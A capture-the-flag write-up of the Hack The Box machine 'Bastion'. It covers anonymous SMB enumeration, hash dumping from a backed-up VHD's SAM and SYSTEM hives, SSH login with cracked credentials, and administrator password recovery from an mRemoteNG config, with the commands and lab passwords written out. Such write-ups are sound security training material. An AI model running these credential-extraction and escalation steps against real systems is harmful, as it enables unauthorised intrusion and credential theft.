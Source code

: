 # 🧪 Bastion – Hack The Box

**Platform:** Hack The Box  
**Difficulty:** Easy  
**IP Address:** 10.10.10.134  
**Date Completed:** [Insert Date]  

---

## 🧭 Overview

Bastion is an Easy-rated Windows machine that contains a Virtual Hard Disk (VHD) file shared via SMB. By mounting and inspecting this disk, user hashes can be extracted from the SAM and SYSTEM files. Once cracked, valid user credentials provide SSH access to the system. Privilege escalation is then achieved by exploiting mRemoteNG’s insecure password storage, allowing retrieval of administrator credentials.

---

## 🔍 Enumeration

### 🔎 Nmap

```bash
nmap -p- --min-rate=1000 -T4 10.10.10.134
nmap -p22,135,139,445 -sC -sV -T4 10.10.10.134
```

### 📁 SMB Share

```bash
smbclient -N -L //10.10.10.134
smbclient -N //10.10.10.134/Backups
```

Discovered a VHD file within the `Backups` share.

---

## 🪜 Foothold

- Mount or extract the VHD file using 7-Zip
- Navigate to: `Windows/System32/config`
- Extract `SAM` and `SYSTEM` hives
- Crack NTLM hash using `samdump2` and online services

```bash
samdump2 SYSTEM SAM > hashes.txt
```

- Cracked credentials:  
  `l4mpje : bureaulampje`

### 🔑 SSH Access

```bash
ssh l4mpje@10.10.10.134
# password: bureaulampje
```

📄 `user.txt`  
`681cf1f0************************`

---

## ⚙️ Privilege Escalation

- Enumerated installed software: `mRemoteNG`
- Version: 1.76.11 (vulnerable)
- Locate config:  
  `C:\Users\l4mpje\AppData\Roaming\mRemoteNG\confCons.xml`

- Download config:
```bash
scp l4mpje@10.10.10.134:/users/l4mpje/AppData/Roaming/mRemoteNG/confCons.xml .
```

- Import into mRemoteNG on attacker machine
- Create external tool to echo password:
```cmd
cmd /k echo "password %password%"
```

- Retrieved password:  
  `thXLHM96BeKL0ER2`

### 🧑‍💼 Administrator Access

```bash
ssh Administrator@10.10.10.134
# password: thXLHM96BeKL0ER2
```

📄 `root.txt`  
`5feb8575************************`

---

## 🧠 Lessons Learned

- VHD files shared over SMB may contain sensitive disk backups
- SAM and SYSTEM hives are valuable targets for local password hashes
- Legacy apps like mRemoteNG often store credentials insecurely
- Always enumerate installed software for weak config or credential leaks

---

## 📸 Proof

![bastion.png](proofs/bastion.png)